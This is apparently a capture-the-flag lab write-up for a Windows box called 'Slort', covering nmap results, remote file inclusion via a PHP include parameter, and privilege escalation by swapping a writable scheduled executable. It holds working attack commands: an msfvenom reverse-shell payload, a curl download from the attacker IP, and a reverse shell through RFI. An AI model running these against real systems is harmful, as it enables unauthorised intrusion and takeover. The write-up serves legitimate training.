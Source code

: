 
# Slort

OS: Windows

# NMAP

The results of the default scripts and sevice scan:

```sh
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3306/tcp  open  mysql?        syn-ack
| mysql-info: 
|_  MySQL Error: Host '192.168.45.166' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   NULL, giop: 
|_    Host '192.168.45.166' is not allowed to connect to this MariaDB server
4443/tcp  open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.228.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
8080/tcp  open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.228.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=8/15%Time=64DB8176%P=x86_64-pc-linux-gnu%r(NU
......

```

# Port 8080
The nmap scan revealed a webserver trunning on port 8080. Webapplications can contain llot's of vulbnerabilities which might lead us to initial access to the machine.

![](slort.png)

In the url we see a page parameter. This might be an indication that lfi (local file inclusion) or even RFI (remote file inclusion) is possible).
If we put just a bogus filename like ‘test.php’ ad the value of the parameter we can see an error message:
![](test.png)

The function called by the application is 'include()'

> The include expression includes and evaluates  the specified file. 

There is a big security warning in the documentation of this function [PHP Include](https://www.php.net/manual/en/function.include.php)

![](warning.png)

We will check if we can make a remote file get executed on the server. We create a file called test.php with the following contents and serve it on our attacker machine: 

```php
<?php

echo("This is a test")

?>
```

If we put our url of out test.php file as the value of the page parameter we can see that the php code get's executed

![](rfi.png)

Yeaah, now take advantage of this file inclusion vulnerabitly to get a shell on the machine.
As a shell i used the PHP shell from Ivan Sinek on https://revshells.com, the shell selected is cmd.exe andthe port 443. The shell is served as shell.php

Boom! we have a shell as rupert!

![](rupertshell.png)

# Privilege Escalation
When perfomring enumeration for privilege escalation it's always good practice to look for non-default files and folders is C:\ and Program Files.
In the C:\ directory we find  C:\Backup. There is a info.txt file. This is info for the user but might contain useful info for us.

```cmd
c:\Backup>type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

Hmm... We see that the file C:\Backup\TFTP.EXE  gets executed every 5 minutes. We will check our persmissions on the file with icacls:

> Displays or modifies discretionary access control lists (DACLs) on specified files, and applies stored DACLs to files in specified directories.

![](icacls.png)

We can see that BUILTIN\Users have Full Access (f) on the file. This means we could to anything with the file including replacing it with a malicous file.
First we will back up the original file:

```cmd
move C:\Backup\TFTP.EXE C:\Backup\TFTP.EXE.bak
```

The payload we generate is:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.226 LPORT=4444 -f exe -o rev4444.exe
```

The file can be transferred with curl:

```cmd
curl.exe 192.168.45.226/rev4444.exe -o c:/Backup/TFTP.exe
```

Now start a listener and wait...

![](admin.png)

Here we have a shell as administrator!!!!

# Short Analysis


We can see the vulnerabilty if we read the contents of C:\xampp\htdocs\site\index.php

```php
C:\xampp\htdocs\site>more index.php
<?php
        $page = null;
        if (isset($_GET["page"])) {
                include($_GET["page"]);
        }
        else {
                echo "ERROR: No page specified...";
                header("Location: index.php?page=main.php", true, 301);
                exit();
        }
?>
```

We see that if the page parameter is set it will try to include that page. But if we do not put a page parameter in th url we should get an error that no page is specified and we get redirected (code 301). We can verify this wirth burp suite:

![](burp.png)





